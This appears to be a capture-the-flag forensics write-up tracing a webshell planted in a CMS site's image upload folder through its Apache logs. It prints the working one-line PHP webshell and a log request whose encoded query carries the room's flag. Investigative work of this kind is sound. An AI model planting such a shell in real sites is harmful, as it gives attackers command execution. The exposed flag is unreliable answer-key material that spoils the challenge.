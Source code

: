 **Difficulty:** Easy

*Investigate and analyse the traces of an attack from an implanted webshell.*

#blue #forensics #webshell

Cipher’s legion of bots has exploited a known vulnerability in our web application, leaving behind a dangerous web shell implant. Investigate the breach and trace the attacker's footsteps!

---

Looking in the file system, the directory containing web application files is in `/var/www/html/CMSsite-master`. I looked for directories that might contain user uploaded files, suspecting the attacker may have been able to upload a webshell through the same method usual user content is uploaded. I looked into the `img` directory which contains images uploaded by users and one file that stands out, `images.php`.

This uploaded (script?) appears to take in a base64 encoded query parameter, which an attacker could insert commands into. I decided to investigate http logs to see if I could find a request from the attacker.

`/var/log/html/CMSsite-master/img/images.php`: 

`<?php system(base64_decode($_GET['query'])); ?>`

In the apache2 logs, I was able to find this request using the web shell with what appeared to be a base64 encoded query parameter.

`/var/log/apache2/other_vhosts_acces.log`:

`ip-10-10-80-94.eu-west-1.compute.internal:80 10.11.93.143 - - [06/Mar/2025:09:51:20 +0000] "GET /CMSsite-master/img/images.php?query=ZWNobyAnVEhNe3N1cDNyXzM0c3lfdzNic2gzbGx9Jwo= HTTP/1.1" 200 229 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36"`

Decoding this in CyberChef gives the flag.
